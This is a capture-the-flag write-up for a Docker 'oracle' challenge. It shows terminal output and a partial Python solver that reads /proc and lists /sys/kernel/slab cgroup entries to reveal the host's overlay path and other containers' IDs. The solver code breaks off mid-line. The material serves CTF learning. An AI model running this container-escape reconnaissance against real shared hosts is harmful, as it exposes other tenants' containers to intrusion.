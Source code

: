 Then, we will get:  
```  
I have no name!@d1d8c566419a:/tmp$ python3 a.py  
python3 a.py  
MY CONTAINER ID:
d1d8c566419a8c763c8515042d0d292907c4280e9d9c2c8e446fa92a4c444e0e  
b"Welcome to the\n    ______ _____      _             \n    |  _  \\  _  |    | |            \n    | | | | |/' | ___| | _____ _ __ \n    | | | |  /| |/ __| |/ / _ \\ '__|\n    | |/ /\\ |_/ / (__|   <  __/ |   \n    |___/  \\___/ \\___|_|\\_\\___|_|   \n    oracle!\nI will give you the flag if you can tell me certain information about the host (:\nps: brute forcing is not the way to go.\nLet's go!\n[Level 1] What is the full *cpu model* model used?\n"  
b'That was easy :)\n[Level 2] What is your *container id*?\n'  
b'[Level 3] Let me check if you truly given me your container id. I created a
/secret file on your machine. What is the hidden secret?\n'  
READ SECRET: SwKrVgQpsxiumerauAJeGlAGYfKOINwLRDkoPYvWnpnQGRlEYQdYprOpWMUwjsrM  
b'[Level 4] Okay but... where did I actually write it? What is the path on the
host that I wrote the /secret file to which then appeared in your container?
(ps: there are multiple paths which you should be able to figure out but I
only match one of them)\n'  
PATH IS:
/var/lib/docker/overlay2/07bd747e7e08a4c28de6d20baa8236674f1a265d9640273447c23cd50f41150c/diff/secret  
b'[Level 5] Good! Now, can you give me an id of any *other* running
container?\n'  
```

## Level 5

In level 5 we have to find out an id of another container. This can be given
e.g. by running another container, but, the reality is that other container
ids can be found in `/sys` (or sysfs) paths, due to cgroups debug
configuration present in this kernel.

Actually, I believe this is a bug and I reported it to Docker, but they did
not fix it (yet?). More information can be found in this presentation:
https://docs.google.com/presentation/d/1VpXqzPIPrfIPSIiua5ClNkjKAzM3uKlyAKUf0jBqoUI/

## Level 6

In level 6, we are asked about the oracle container id. For this, one can find
ALL container ids using the previous technique and then try each of them.

A full solver script and its output can be seen below:  
```  
import sys  
import socket  
import time  
import subprocess  
import re

CONTAINER_ID_REGEX = '[a-z0-9]{64}'

with open('/proc/self/cgroup') as f:  
   my_container_id = f.read().splitlines()[0].split('docker/')[1]

print("MY CONTAINER ID: %s" % my_container_id)

cpuinfo_lines = open('/proc/cpuinfo').read().splitlines()  
cpumodel_line = next(line for line in cpuinfo_lines if 'model name' in line)  
cpumodel = cpumodel_line.split(': ')[1].strip()

def get_container_ids():  
   data = subprocess.check_output('ls -l /sys/kernel/slab/*/cgroup/',
shell=True).decode().splitlines()  
   cgroups = set(line.split('(')[-1][:-1].split(':')[1] for line in data if
```